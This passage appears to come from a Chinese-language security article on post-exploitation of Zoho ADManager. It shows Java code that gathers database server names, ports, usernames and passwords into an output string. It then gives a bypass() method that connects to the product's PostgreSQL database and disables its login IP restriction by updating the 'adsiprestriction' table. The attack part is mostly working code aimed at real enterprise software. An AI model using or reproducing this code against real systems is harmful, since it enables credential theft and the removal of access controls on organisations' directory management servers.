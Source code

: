 ```
String server_name = rs1.getString("server_name");
String port_number = rs1.getString("port");
returnstr = returnstr+server_name+" "+db_type+" "+port_number+" "+username+" "+password+" "+db_connection_setting+"\r\n";
}else {
returnstr = returnstr+"No o365DB Info \r\n";
}
rs1.close();
stmt1.close();
rs.close();
stmt.close();
}catch (Exception e){
           
}
return returnstr;
}
           
```  
  
  
**4.限制IP登陆后绕过**  
  
Zoho ADManager具有限制登录IP功能  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwKwLZib0hDJUKo2VJpADxGDia6RX6tA29tlseQtO1iaiaL7d1Cia79Sy3hyQ/640?wx_fmt=png "")  
  
限制开关也存储在数据库中adsiprestriction      
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwVvM126Qe0oLsiaTCCZcyCwYZ5xhKFfxbnUibJ5lVKf40I6jBfjrSVsPQ/640?wx_fmt=png "")  
  
所以只需要修改is_enable字段值即可  
  
```
public String bypass() {
String returnstr = "";
Connection c = null;
Statement stmt = null;
try {
Properties properties = PersistenceInitializer.getDBProps(PersistenceInitializer.getDBParamsFilePath());
Class.forName("org.postgresql.Driver");
c = DriverManager.getConnection(properties.getProperty("url"),properties.getProperty("username"), properties.getProperty("password"));
c.setAutoCommit(false);
}catch (Exception e){
returnstr = "DB Connection fail";
}
try {
stmt = c.createStatement();
String sql = "UPDATE \"adsiprestriction\" SET \"is_enabled\" = 'f' WHERE \"id\" = 1;";
stmt.executeUpdate(sql);
c.commit();
returnstr = "Changes take effect";
}catch (Exception e){
returnstr = "Change fail";
}
return returnstr;
}
```  
  